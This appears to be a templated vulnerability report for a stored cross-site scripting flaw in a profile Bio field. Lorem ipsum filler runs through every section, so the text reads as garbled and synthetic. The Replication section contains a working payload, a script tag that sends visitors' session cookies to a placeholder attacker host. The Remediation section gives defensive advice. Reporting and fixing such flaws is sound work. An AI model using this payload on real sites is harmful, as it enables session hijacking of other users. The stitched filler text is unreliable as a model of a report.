

## Description

Lorem ipsum dolor sit amet, consectetur adipiscing elit. The user profile `Bio` field does not sanitize HTML markup before storing it in the database: sed do eiusmod tempor incididunt ut labore et dolore magna aliqua.

## Impact

Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. A malicious authenticated user can inject JavaScript that executes for every visitor of their profile page, duis aute irure dolor in reprehenderit in voluptate.

## Replication

1. Lorem ipsum: log in to `https://portal.loremipsum.example`.
2. Dolor sit amet: navigate to **Settings → Edit Profile**.
3. Consectetur adipiscing: enter the following in the **Bio** field and save:

   ```html
   <script>document.location='https://lorem-ipsum-attacker.example/steal?c='+document.cookie</script>
   ```

4. Sed do eiusmod: log in as a different user and navigate to the attacker's profile.
5. Tempor incididunt: observe the session cookie is transmitted to the placeholder attacker-controlled server.

{width=90%}

{width=90%}

## Remediation

Lorem ipsum dolor sit amet: sanitize all user-supplied HTML before storage using an allowlist-based library such as [DOMPurify](https://github.com/cure53/DOMPurify) (client-side) or [bleach](https://github.com/mozilla/bleach) (server-side). Consectetur adipiscing elit:

- Set the `HttpOnly` flag on session cookies to limit JavaScript access.
- Implement a Content Security Policy (CSP) header: `Content-Security-Policy: default-src 'self'`.
- Encode output at the point of rendering using context-appropriate encoding.
